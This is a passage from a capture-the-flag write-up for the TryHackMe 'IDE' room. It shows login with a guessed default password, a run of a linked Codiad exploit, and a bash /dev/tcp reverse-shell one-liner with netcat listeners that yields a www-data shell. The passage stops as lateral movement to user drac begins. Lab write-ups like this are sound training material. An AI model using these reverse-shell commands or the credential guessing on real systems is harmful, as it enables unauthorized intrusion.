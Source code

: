 We know that john's password has been set to default, so I tried some default passwords on the login page and guessed the password which was `password`.

## Reverse shell

Now that we have creds, we can use the exploits. I'm gonna leave the exploit [here](https://github.com/Nima-Fr/TryHackMe/blob/main/IDE/files/exploit.py) for you guys, in case you couldn't find it yourself.

First run the exploit as shown below. The exploit needs the url, username, password, and listening host and porn plus the platform:

~~~
└─$ python3 exploit.py http://10.10.184.116:62337/ john password 10.9.4.143 4444 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/10.9.4.143/4445 0>&1 2>&1"' | nc -lnvp 4444
nc -lnvp 4445
[+] Please confirm that you have done the two command above [y/n]
[Y/n]
~~~

After running the exploit, we are given to commands to run on our machine. Run those two commands on two separate shells:

~~~
$ echo 'bash -c "bash -i >/dev/tcp/10.9.4.143/4445 0>&1 2>&1"' | nc -lnvp 4444
listening on [any] 4444 ...
~~~

~~~
$ rlwrap nc -lvnp 4445
listening on [any] 4445 ...
~~~

Now enter "y" where the exploit is running and you should have a shell. The first thing I did was spawning a TTY shell using a python one-liner:

~~~
└─$ rlwrap nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.9.4.143] from (UNKNOWN) [10.10.184.116] 57132
bash: cannot set terminal process group (913): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ide:/var/www/html/codiad/components/filemanager$ which python3
/usr/bin/python3
www-data@ide:/var/www/html/codiad/components/filemanager$ python3 -c "import pty;pty.spawn('/bin/bash')"
~~~

## www-data -> drac

Now we need to switch to a user on the machine to move forward. First I listed `/home` directory to see the users on the machine and there is only one: `drac`
